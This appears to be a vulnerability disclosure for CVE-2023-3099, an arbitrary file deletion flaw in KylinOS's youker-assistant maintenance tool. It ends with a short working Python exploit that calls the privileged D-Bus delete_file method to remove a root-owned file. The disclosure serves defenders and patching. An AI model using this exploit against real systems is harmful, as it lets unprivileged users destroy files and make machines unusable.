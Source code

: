 # Kylin OS youker-assistant arbitrary file delete vuln

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
### CVE ID
CVE-2023-3099
## Report
### Describe
youker-assistant is an integrated tool on KylinOS Desktop to help perform daily system maintenance tasks. The delete_file in this program has an arbitrary file deletion vulnerability, which can cause the system to be unavailable.
### Hazard level
High
### Affected version
- youker-assistant < 3.0.2-0kylin6k70-23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
import dbus

filepath = "/root/test"

bus = dbus.SystemBus()

obj = bus.get_object('com.kylin.assistant.systemdaemon','/com/kylin/assistant/systemdaemon')

obj.delete_file(filepath,dbus_interface = 'com.kylin.assistant.systemdaemon')
```
